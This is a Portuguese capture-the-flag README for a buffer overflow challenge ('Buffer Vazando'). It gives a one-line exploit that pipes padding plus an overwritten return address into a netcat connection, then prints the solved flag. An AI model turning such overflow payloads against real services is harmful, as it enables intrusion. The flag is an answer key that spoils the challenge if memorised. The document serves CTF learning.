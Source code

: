 # binexp Buffer Vazando

## Descrição do desafio

"Temos um vazamento! Repito, temos um vazamen-!"

Essa foi a ultima mensagem transmitida pelo de seguranca, agora cabe a voce descobrir o que aconteceu com eles. Encontre esse vazamento!

## Descrição da solução

Para a solução completa desse desafio leia o [writeup](writeup.md)

```bash
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08' | nc <endereço> <porta>
```

Assim, a flag encontrada:
eits{v1t0r14_1lc4nc4d4!}
